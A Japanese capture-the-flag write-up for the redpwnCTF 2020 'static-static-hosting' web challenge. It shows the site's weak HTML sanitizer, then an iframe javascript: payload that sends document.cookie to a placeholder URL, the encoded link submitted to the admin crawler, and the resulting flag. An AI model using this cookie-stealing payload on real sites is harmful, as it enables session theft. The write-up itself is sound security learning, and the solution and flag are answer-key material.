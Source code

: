 # static-static-hosting

```txt
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me [here](url)

Site: (url)
```

## 概要

![static-static](./img/static-static.png)

[static-pastebin](../../../static-pastebin)と同じような感じ。
サニタイジングが変わってる。

```js
(snip)
for (let i = 0; i < attributes.length; i++) {
     // Let people add images and styles
    if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])){
        element.removeAttribute(attributes[i]);
    }
}
const children = element.children;
for (let i = 0; i < children.length; i++) {
    if (children[i].nodeName === 'SCRIPT') {
        element.removeChild(children[i]);
        i --;
    } else {
        sanitize(children[i]);
    }
}
(snip)
```

`src`,`width`,`height`,`alt`,`class`が使えて、`script`タグは使えないっぽい。  

`<img src="javascript:alert();">`とか試したけど上手くいかなかった  
(やり方間違えてるのかな)

## 解

iframeのsrc使ったらできた。

```html
<iframe src='javascript:document.location="[url]?" + document.cookie'></iframe>
```

を入力するとリダイレクトするので、
以下をクローラーに提出する。

```txt
https://static-static-hosting.2020.redpwnc.tf/site/#PGlmcmFtZSBzcmM9J2phdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249Ilt1cmxdPyIgKyBkb2N1bWVudC5jb29raWUnPjwvaWZyYW1lPgo=
```

クローラーが`[url]?flag=flag%7Bwh0_n33d5_d0mpur1fy%7D`にアクセスしてくる。

```txt
flag{wh0_n33d5_d0mpur1fy}
```
